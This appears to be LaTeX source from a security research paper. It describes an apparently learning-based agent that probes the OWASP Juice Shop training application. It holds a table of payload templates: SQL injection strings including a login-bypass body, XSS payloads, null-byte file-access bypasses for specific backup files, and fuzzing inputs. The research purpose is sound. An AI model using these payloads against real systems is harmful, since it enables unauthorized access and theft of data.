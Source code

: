 \documentclass[conference, a4paper]{IEEEtran}
\begin{document}
\begin{table}[!t]
\caption{Configured Payload Templates}
\label{tab:payloads}
\centering
\scriptsize
\begin{tabular}{p{}p{}p{}}
\toprule
\textbf{Name} & \textbf{Class} & \textbf{Payload}\\
\midrule
\texttt{sqli\_tautology} & SQLi & \lstinline|' OR '1'='1|\\
\texttt{sqli\_comment} & SQLi & \lstinline|apple'--|\\
\texttt{sqli\_union} & SQLi & \lstinline|' UNION SELECT NULL--|\\
\texttt{sqli\_time} & SQLi & \lstinline|' OR SLEEP(5)--|\\
\texttt{sqli\_wildcard} & SQLi & \lstinline|%s%s%s%s%s%s%s%s|\\
\texttt{sqli\_login} & SQLi & \lstinline|{"email":"admin@juice-sh.op' OR '1'='1","password":"a"}|\\
\texttt{xss\_img} & XSS & \lstinline|<img src=x onerror=alert(document.domain)>|\\
\texttt{xss\_script} & XSS & \lstinline|<script>alert(document.domain)</script>|\\
\texttt{xss\_svg} & XSS & \lstinline|<svg onload=alert(1)>|\\
\texttt{xss\_review} & XSS & \lstinline|{"message":"<img src=x onerror=alert(document.domain)>","author":"rlpoc"}|\\
\texttt{lfi\_poison\_null} & File & \lstinline|package.json.bak%2500.md|\\
\texttt{lfi\_coupons} & File & \lstinline|coupons_2013.md.bak%2500.md|\\
\texttt{lfi\_wap\_rules} & File & \lstinline|suspicious_errors.yml%2500.pdf|\\
\texttt{fuzz\_long} & Fuzzing & \texttt{A} repeated 1,628 times\\
\texttt{fuzz\_null} & Fuzzing & \lstinline|admin%00|\\
\bottomrule
\end{tabular}
\end{table}

An action corresponds to submitting one configured template to one
selected endpoint; the resulting response is processed to
construct the next state. Episode-to-full-coverage figures
reported in Section~\ref{sec:results} are averaged only over trials
that found all 14 reference actions. Mean total request counts
include the eight benign baseline probes together with the actual
control and browser verification requests; primary-action budgets
are matched across methods, while total HTTP interactions vary
slightly across runs because verification overhead depends on
which candidates are raised. Payload and surface selection rely on
known Juice Shop behavior; this prior constrains the scope of the
experiment and must not be read as evidence of fully autonomous
vulnerability discovery.
\end{document}
